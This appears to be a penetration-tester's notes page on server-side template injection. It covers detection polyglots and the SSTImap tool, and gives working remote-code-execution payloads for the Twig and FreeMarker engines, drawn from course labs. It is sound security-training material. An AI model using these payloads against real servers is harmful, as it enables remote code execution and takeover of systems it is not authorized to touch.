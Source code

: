```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSTI

{% hint style="info" %}
**Server-Side Template Injection (SSTI)** is a vulnerability where an attacker injects malicious template code into server-side templates, which is then executed by the server.
{% endhint %}

{% hint style="danger" %}
This can lead to remote code execution, data exposure, and unauthorized access, as attackers can manipulate the server-side template engine to run arbitrary code.
{% endhint %}

{% hint style="success" %}
Validate and sanitize all user inputs, avoid using untrusted data in templates, and restrict the template engine's features to limit the potential impact of injections.
{% endhint %}

## Identification

### Manual

We can use polyglots to induce errors. The **error polyglot** produces an error message to 44 template engines. However, errors might be caught by the application. The **non-error polyglots** are constructed in such a way that at least one of them does not throw an error, but renders the polyglot modified for all popular template engines.

```bash
# The error polyglot
<%'${{/#{@}}%>{{
# Non-error polyglots
">[[${{1}}]]
<%=1%>@*#{1}
{##}/*{{.}}*/
```

```
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

<figure><img src="../../../../.gitbook/assets/ssti_portswigger_diagram.png" alt=""><figcaption><p>Figure 1: Identifying template engines (<em>image taken from</em> <a href="https://portswigger.net/web-security/server-side-template-injection"><em>here</em></a>).</p></figcaption></figure>

### Automatic

Tools like [TInjA](https://github.com/Hackmanit/TInjA), [SSTImap](https://github.com/vladko312/sstimap), and [j2ee-scan](https://github.com/PortSwigger/j2ee-scan) (Burp Pro) can automatically test for SSTI flaws by injecting combinations of special characters in template expressions (`${{<%[%'"}}%\`). Vulnerability indicators include:

* Thrown errors, revealing the vulnerability and potentially the template engine.
* Absence of the payload in the reflection, or parts of it missing, implying the server processes it differently than regular data.
* **Plaintext Context**: Distinguish from XSS by checking if the server evaluates template expressions.
* **Code Context**: Confirm vulnerability by altering input parameters. For instance, changing `greeting` in `http://vulnerable-website.com/?greeting=data.username` to see if the server's output is dynamic or fixed, like in `greeting=data.username}}hello` returning the username.

## Twig

### filter

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 2).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><img src="../../../../.gitbook/assets/web_ssti_twig_1.png" alt=""><figcaption><p>Figure 2: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined [previously ](ssti.md#manual)(Figure 3). Twig uses PHP which does not check the variable type and as a result it treats `7` and `'7'` the same.

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><img src="../../../../.gitbook/assets/web_ssti_basic_1.png" alt=""><figcaption><p>Figure 3: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed a server-side and not a client-side template injection, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig), in this case leveraging the [`filter`](https://twig.symfony.com/doc/3.x/filters/filter.html) filter, and achieve RCE[^1] (Figure 4).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><img src="../../../../.gitbook/assets/web_ssti_twig_2.png" alt=""><figcaption><p>Figure 4: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```
{% endcode %}

### reduce

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Another filter we can leverage is the [`reduce`](https://twig.symfony.com/doc/3.x/filters/reduce.html) filter which takes an arrow function and an initial value as arguments (Figure 5).

```twig
{{[0]|reduce('var_dump','Hello')}}
```

<figure><img src="../../../../.gitbook/assets/web_ssti_reduce_1.png" alt=""><figcaption><p>Figure 5: Testing the <code>reduce</code> filter.</p></figcaption></figure>

We can replace the arguments with something that executes system commands, such as PHP's [`system`](https://www.php.net/manual/en/function.system.php) function and achieve RCE (Figure 6).

```twig
{{[0]|reduce('system','whoami')}}
```

<figure><img src="../../../../.gitbook/assets/web_ssti_reduce_2.png" alt=""><figcaption><p>Figure 6: Leveraging the <code>reduce</code> filter to achieve RCE.</p></figcaption></figure>

## Freemarker

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We can leverage the [`Execute`](https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html) class which implements the `TemplateModel` interface to achieve RCE in a FreeMarker templating engine.

```ftl
${"freemarker.template.utility.Execute"?new()("whoami")}
```

## Resources

{% tabs %}
{% tab title="Theory" %}
{% embed url="https://hackmanit.de/en/blog-en/178-template-injection-vulnerabilities-understand-detect-identify" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
{% endtab %}

{% tab title="SSTI Table" %}
{% embed url="https://cheatsheet.hackmanit.de/template-injection-table/" %}
{% endtab %}
{% endtabs %}

[^1]: Remote Code Execution
